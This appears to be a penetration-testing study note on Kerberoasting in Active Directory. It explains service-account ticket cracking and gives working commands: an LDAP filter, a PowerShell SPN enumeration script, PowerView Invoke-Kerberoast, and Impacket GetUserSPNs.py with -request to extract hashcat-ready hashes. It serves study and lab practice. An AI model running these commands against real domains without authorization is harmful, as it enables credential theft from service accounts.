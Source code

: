 ## What is it ?
`Kerberoasting` is an attack against service accounts that allows an attacker to perform an offline password-cracking attack against the Active Directory account associated with the service. It is similar to `ASREPRoasting` but does require prior authentication to the domain. In other words, we need a valid domain user account and password (even the lowest privileged) or a SYSTEM (or low privileged domain account) shell on a domain-joined machine to perform the attack.

The `TGS` ticket is encrypted using computer, user or `gMSA` "special user account" account. we are interested in SPN that is associated with user accounts. A user account has a password set by a human, which is much more likely to be predictable. on the other hand, computer accounts have big passwords of characters and the `gMSA` also do so, and `gMSA`automaticly rotate passwords.

---
### Kerberoasting without an Account Password
When we have random user in AD has pre-auth disabled, we can request his `TGT`, then we can use this `TGT` to get `TGS` for different services in the env, that enhance our attack surface, so we may be able to crack one of the service accounts.

---
## Commands
### windows
#### Manual Detection
We then look for user accounts (not machine accounts) exposing a service. An account that exposes a service has a Service Principal Name (or SPN). It is an LDAP attribute set on the account indicating the list of existing services provided by this account. If this attribute is not empty, this account offers at least one service.

Here is an LDAP filter to search for users exposing a service:
```ldap
&(objectCategory=person)(objectClass=user)(servicePrincipalName=*)
```

This filter returns a list of users with a non-empty SPN. A small PowerShell script allows us to automate finding these accounts in an environment:
```powershell
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$results = $search.Findall()
foreach($result in $results) { $userEntry = $result.GetDirectoryEntry()
    Write-host "User" 
    Write-Host "===="
    Write-Host $userEntry.name "(" $userEntry.distinguishedName ")"
        Write-host ""
    Write-host "SPNs"
    Write-Host "===="     
    foreach($SPN in $userEntry.servicePrincipalName)
    {
        $SPN       
    }
    Write-host ""
    Write-host ""
}
```
This script allows us to have a list of Kerberoastable accounts, but it does not perform a TGS request and does not extract the hash we can brute force.
We can also use the [Setspn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241\(v=ws.11\)) built-in Windows binary to search for SPN accounts.

#### Kerberoasting with PowerView
```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Invoke-Kerberoast
# OR Manually
PS C:\Tools> Get-DomainUser * -SPN | Get-DomainSPNTicket -format Hashcat | export-csv .\tgs.csv -notypeinformation
PS C:\Tools> cat .\tgs.csv
```
#### Kerberoasting with Rubeus
[[Rubeus]]

---
### Linux

`GetUserSPNs.py` This tool can search for all Kerberoastable accounts, extract the data encrypted with the password of the service account, and return a hashcat-friendly hash for further cracking.
```sh
GetUserSPNs.py inlanefreight.local/pixis
```

Now that we know there are `Kerberoastable` accounts, we can request a `TGS ticket` or `Service Ticket (ST)` for each of them and obtain a crackable hash using `-request`
```
GetUserSPNs.py inlanefreight.local/pixis -request
```